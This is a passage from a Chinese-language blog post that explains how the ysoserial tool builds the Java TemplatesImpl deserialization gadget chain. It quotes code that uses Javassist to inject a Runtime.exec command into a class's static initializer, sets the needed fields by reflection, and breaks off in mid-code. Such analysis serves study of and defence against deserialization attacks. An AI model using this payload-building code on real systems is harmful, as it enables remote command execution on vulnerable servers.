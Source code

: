 其中的 defineTransletClasses 方法主要是通过 _bytecodes(存放着字节码)找到对应的 Class 并放到 _class 数组中去，接着会调用 Class 的 newInstance() 实例化。如此一来，只要在一个类中的初始块或者构造器中加入执行命令的代码，再把这个类的字节码传给 _bytecodes 就行。
完整的执行链:
getOutputProperties() --> newTransformer() --> getTransletInstance() --> newInstance()
根据这个执行链，只要找到一个在反序列化的时候会调用 TemplatesImpl.getOutputProperties() 就行，要注意的是这个执行链能执行到最终需要 _name，_bytecodes 和 _tfactory(在defineTransletClasses 方法中会用到)这三个变量不能为 null。

来看下 Ysoserial 是如何构造该执行链的。
ysoserial/payloads/util/Gadgets.java中的createTemplatesImpl():
```java
public static TemplatesImpl createTemplatesImpl(final String command) throws Exception {
	final TemplatesImpl templates = new TemplatesImpl();

	// use template gadget class
	ClassPool pool = ClassPool.getDefault();
	pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
	final CtClass clazz = pool.get(StubTransletPayload.class.getName());
	// run command in static initializer
	// TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
	clazz.makeClassInitializer().insertAfter("java.lang.Runtime.getRuntime().exec(\"" + command.replaceAll("\"", "\\\"") +"\");");
	// sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
	clazz.setName("ysoserial.Pwner" + System.nanoTime());

	final byte[] classBytes = clazz.toBytecode();

	// inject class bytes into instance
	Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
		classBytes,
		ClassFiles.classAsBytes(Foo.class)});

	// required to make TemplatesImpl happy
	Reflections.setFieldValue(templates, "_name", "Pwnr");
	Reflections.setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
	return templates;
}
```
这里主要是用到了 Javassist 这个库来处理字节码，这库厉害在于它可以在运行时动态的去修改 Java 的字节码。先是获得一个 ClassPool 对象，然后添加类的搜索路径。个人觉得 StubTransletPayload 这个类就定义在这里，添加这个搜索路径貌似作用不大。接下来就是获得 StubTransletPayload 类的 CtClass(compile-time clas)引用，然后就是往里面插入一段带有执行命令代码的静态初始化块。看下 StubTransletPayload :
```java
public static class StubTransletPayload extends AbstractTranslet implements Serializable {
	private static final long serialVersionUID = -5971610431559700674L;

	public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

	@Override
	public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}
}
```
因为_bytecodes需要是translet class，这里是继承了AbstractTranslet这个抽象类。那么StubTransletPayload也得定义为抽象类，要不就得重写AbstractTranslet中的这两个方法，抽象类没法实例化，所以就只能选择去重写这两个方法了。
关于 Javassist 这个库的具体使用可以看参考里面的链接，本地写了一小段测试代码：
![](https://i.loli.net/2017/08/17/59950c4a17c10.png)
再看下生成的字节码和反编译的源码：
![](https://i.loli.net/2017/08/17/59950c67b9ee7.png)
设置 templates 中三个成员变量的值得时候用到了反射，Ysoserial 里自己写了个 Reflections 类，可以去看下:
```java
public class Reflections {
	public static Field getField(final Class<?> clazz, final String fieldName) throws Exception {
		Field field = clazz.getDeclaredField(fieldName);
```